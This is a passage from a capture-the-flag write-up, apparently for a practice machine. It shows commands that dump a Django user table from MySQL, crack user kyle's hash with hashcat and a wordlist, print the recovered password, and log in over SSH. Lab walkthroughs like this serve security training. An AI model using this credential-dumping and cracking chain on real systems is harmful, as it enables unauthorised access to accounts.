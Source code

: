 ![image-20230108142332321](./images/image-20230108142332321.png)

check mysql

```bash
mysql -u djangouser -p dev

show tables;
select * from auth_user;
```

got password hash, kyle

```bash
hashcat writer-kyle.hash ../rockyou.txt

kyle:marcoantonio
```



## kyle shell

ssh to kyle.

```bash
ssh kyle@$tip
```
